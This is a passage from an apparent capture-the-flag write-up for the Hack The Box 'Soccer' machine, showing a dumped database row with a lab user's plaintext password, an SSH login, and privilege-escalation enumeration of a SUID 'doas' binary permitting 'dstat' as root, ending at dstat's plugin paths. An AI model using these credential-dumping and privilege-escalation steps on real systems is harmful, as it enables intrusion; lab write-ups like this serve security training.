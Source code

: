 We found the `accounts` table, let's dump it

```terminal
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

We got the password of user `player`, now we can ssh.

### root

Linpeas shows us a binary with suid bit called `doas`

```terminal
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 42K Nov 17  2022 /usr/local/bin/doas                       
```

If we check the man page of this binary it says `doas — execute commands as another user`, os it's just like `sudo`

To know what we can do we need to check the config file located at `/usr/local/etc/doas.conf`

```terminal
player@soccer:~$ cat /usr/local/etc/doas.conf 
permit nopass player as root cmd /usr/bin/dstat
```

We can run `dstat` as root. Let's check this command.

```terminal
player@soccer:~$ file /usr/bin/dstat
/usr/bin/dstat: Python script, ASCII text executable
player@soccer:~$ ls -l /usr/bin/dstat
-rwxr-xr-x 1 root root 97762 Aug  4  2019 /usr/bin/dstat
player@soccer:~$
```

The file is a python script. If we check the man page it tells us `dstat - versatile tool for generating system resource statistics`

It also shows us paths where we can add plugins.

```terminal
FILES
       Paths that may contain external dstat_*.py plugins:

           ~/.dstat/
           (path of binary)/plugins/
           /usr/share/dstat/
           /usr/local/share/dstat/

```
